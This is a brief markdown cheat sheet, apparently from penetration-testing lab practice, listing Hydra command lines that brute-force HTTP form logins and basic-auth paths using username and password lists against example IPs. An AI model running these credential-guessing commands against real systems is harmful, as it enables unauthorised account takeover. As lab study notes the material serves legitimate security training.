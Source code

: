 # HTTP Login

## Hydra

- `hydra -L <userlist> -P <passlist> <target> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials"`
- `hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"`

  ![http-form](./images/http-login-01.png)
- `hydra -U http-post-form` : for man help

  ![http-form](./images/http-login-02.png)

## Basic auth bypass

- `hydra -L usernames -P password_file.txt -s port -f ip_address request_method /path`
- `hydra -L usernames -P passwords -f 192.168.1.4 http-get /webdav`

## References

- https://assets.ine.com/labs/ad-manuals/walkthrough-1896.pdf : basic-auth burpsuite
